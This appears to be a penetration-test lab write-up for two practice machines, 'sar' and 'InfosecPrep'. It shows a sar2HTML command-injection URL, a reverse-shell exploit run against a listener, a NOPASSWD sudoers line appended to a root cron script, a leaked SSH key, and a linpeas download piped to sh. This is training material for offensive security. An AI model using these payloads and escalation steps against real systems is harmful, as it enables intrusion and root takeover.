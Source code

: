  # system vulnerable : sar - 192.168.65.35

 ## vulnerability Explanation :

    This indicates an attack attempt to exploit a Command Injection vulnerability in SAR2HTML.
    The vulnerability is due to insufficient sanitizing of user supplied inputs in the application when handling a crafted HTTP request.
    A remote attacker may be able to exploit this to execute   arbitrary commands within the context of the application, via a crafted HTTP request.

## privileges Escalation vulnerability :
    Privilege Escalation via Root Crontab File Modification

## vulnerability Fix :
    It recommended to update sar2HTML to the lastest version in order to apply the vendor supplied patches.

 ## nmap scan :
 ```
 $ nmap -sS -sV -p- 192.168.65.35

Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-05 09:29 EDT
Stats: 0:12:12 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 76.87% done; ETC: 09:45 (0:03:40 remaining)
Nmap scan report for 192.168.65.35
Host is up (0.058s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2030.36 seconds
``` 

## after we know port 80 is Open

## Directory enumeration with  **Dirb** 

```
$ dirb http://192.168.65.35 /usr/share/wordlists/dirbuster/directory-list-1.0.txt -X .txt

DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Oct  5 09:51:23 2022
URL_BASE: http://192.168.65.35/
WORDLIST_FILES: /usr/share/wordlists/dirbuster/directory-list-1.0.txt
EXTENSIONS_LIST: (.txt) | (.txt) [NUM = 1]

.35/robots.txt (CODE:200|SIZE:9)
```

![http://192.168.65.35/robots.txt](./sar/robots_txt.png)
![http://192.168.65.35/sar2HTML](./sar/Screenshot%20at%202022-10-05%2009-56-40.png)


 After small searche about service and its version 
 I found sar2HTML 3.2.1  is vuln to  remote code execution.
![http://192.168.65.35/sar2HTML](./sar/testsarhtml.png)

[ http://192.168.65.35/index.php?plot=;ls -la ] 
will execute 
the command you entered. After command injection press "select # host" then your command's 
output will appear bottom side of the scroll screen.

![http://192.168.65.35/index.php?plot=;ls/-la](./sar/ls-lasar2html.png)

## EXPLOIT :
### used an exploit from (Reverse Shell for sar2HTM) : https://github.com/AssassinUKG/sar2HTML
```
$ python3 sar2HTMLshell.py -ip 192.168.65.35 -rip 192.168.49.65:5555 -pe sar2HTML 
                _____  _   _ ________  ___ _     
               / __  \| | | |_   _|  \/  || |    
 ___  __ _ _ __`' / /'| |_| | | | | .  . || |    
/ __|/ _` | '__| / /  |  _  | | | | |\/| || |    
\__ \ (_| | |  ./ /___| | | | | | | |  | || |____
|___/\__,_|_|  \_____/\_| |_/ \_/ \_|  |_/\_____/
                                                 
                                                 
The Host Appears Vulnerable, Running a basic shell ...
Enter: 'rs session' for a ReverseShell
$\cmd> rs session 
```
OPEN NEW SHELL WINDOW 
![Reverse Shell](./sar/newwinforbash.png)

Search for possible paths to escalate privileges with **LinPEAS** tool I found crontab run with root privileges :

![LinPEAS tool](./sar/linpeastool.png)

```
$ curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

 ...
 
  */5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh
  2019-10-20+21:18:10.9383805730 /var/www/html/finally.sh
  /var/www/html/finally.sh
  /var/www/html/finally.sh
  
  ...

```

![Write.sh](./sar/write_sh.png)


### www-data user have the right to edit the write.sh

```
$ ls -l write.sh
-rwxrwxrwx 1 www-data www-data 30 Jul 24  2020 write.sh
```
```
$ echo 'echo "www-data ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers' >> /var/www/html/write.sh
```

![proof.txt](./sar/Screen%20Shot%202022-10-05%20at%207.13.03%20PM.png)

```








```

# system vulnerable : InfosecPrep - 192.168.65.89

 ## vulnerability Explanation :

Invicti detected a Robots.txt file with potentially sensitive content.

## privileges Escalation vulnerability :
    Privilege Escalation via SUID 

## vulnerability Fix :
    Ensure you have nothing sensitive exposed within this file, such as the path of an administration panel. If disallowed paths are sensitive and you want to keep it from unauthorized access, do not write them in the Robots.txt, and ensure they are correctly protected by means of authentication.
    Robots.txt is only used to instruct search robots which resources should be indexed and which ones are not.

## Enumeration with NMAP:

```
$ sudo nmap -sS -sV -p- 192.168.65.89
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-05 16:22 EDT
Nmap scan report for 192.168.65.89
Host is up (0.061s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
33060/tcp open  mysqlx?
```

After i know port 80 is open now time to start Dir Enumeration 

## Dir enumeration with **Drib**

![DirbScan](./infosec/dirbscan.png)

I found **robots.txt**

![robots.txt](./infosec/robots_txt.png)

after that i saw a secret.txt ther

![secret.txt](./infosec/secret_txt.png)

with some decoded text 

decode this text with cmd :
![decode](./infosec/decodesecret_txt.png)

### its a openssh privet key ,after that i try to connect to ssh service as i know from the main page of the website the only user in web app is "OSCP"
![USR](./infosec/Oscp_onlyUser.png)

![connectToSsh](./infosec/EnterwithSshPrivetKey.png)

## Privilege Escalation:

privilige escaltion tool **liPEAS** : https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

after run the follwing CMD :
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
![SUIDmisconfig](./infosec/SUID.png)

I found we can run /usr/bin/bash owned by the user **ROOT** with SUID permission 

![proof](./infosec/proof_txt.png)

